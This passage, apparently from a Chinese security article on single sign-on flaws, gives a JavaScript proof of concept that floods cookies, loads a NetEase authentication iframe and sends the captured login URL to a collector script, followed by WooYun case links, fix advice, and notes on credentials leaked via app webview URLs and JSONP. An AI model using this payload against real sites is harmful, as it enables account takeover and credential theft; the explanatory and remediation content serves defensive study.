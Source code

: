 ```
for (i = 0; i < 20; i++) {
    document.cookie = i + '=' + repeatt('X', 2000) + ';path=/auth'; } var iframe =document.createElement('iframe');
iframe.src="http://bobo.163.com/checkAuth?url=http://www.bobo.com/&";
iframe.addEventListener('load', function(){ var ntes =
iframe.contentWindow.location.href; var img1
=document.createElement('img'); img1.src = "http://127.0.0.1/163img.php?r="+encodeURIComponent(ntes); for (i = 0;
i < 20; i++) {
    document.cookie = i + '=' + repeatt('X', 1) + ';path=/auth'; } }, false); document.body.appendChild(iframe);

```

案例：[网易用户登陆状态下点我的链接我就可进入其邮箱、云笔记等服务](http://www.wooyun.org/bugs/wooyun-2010-0148110)

如上方法不适用于IE的一些版本，因为IE在打不开页面的时候加载的是自己本地的页面，导致错误页和我们的xss页面不同源

### 修复方案

由认证中心来跨域为子站设置认证cookie

单点自动登陆需要防护csrf，让用户不能伪造登陆请求

0x08 App内嵌页登录的风险
=====

当我们在一个app内打开其公司产品的一些链接，会被加上认证信息去让用户自动登陆

微博客户端、QQ客户端、微信客户端都曾有或现在正有此问题，一般会加上参数sid、gsid、key

*   案例：[WooYun: 聊着聊着我就上了你……的微信（两处都可以劫持微信登录的漏洞）](http://drops.com:8000/%3Ca%20target=)">聊着聊着我就上了你……的微信
*   案例：[手机版QQ空间身份因素可被盗用](http://www.wooyun.org/bugs/wooyun-2010-027590)
*   案例：之前的一个手机qq的漏洞，找一qq域下论坛发一张图，然后把此页发给手机qq上好友，他点击就会被盗号

偷的几种方式

```
见单点登录场景一的几种方式
用户甚至会通过app的分享功能把认证信息分享到邮件或朋友圈

```

### 修复方案

不要直接把认证凭证添加到webview的URL来完成认证

使用COOKIE，POST都可以

0x09 跨域从通行证获取到的凭证
=====

跨域从通行证获取登陆ticket

形式为类似`http://www.wangzhan.com/sso/getst.php?callback=jsonp`

然后通行证会返回个jsonp格式的数据，里面包含认证信息
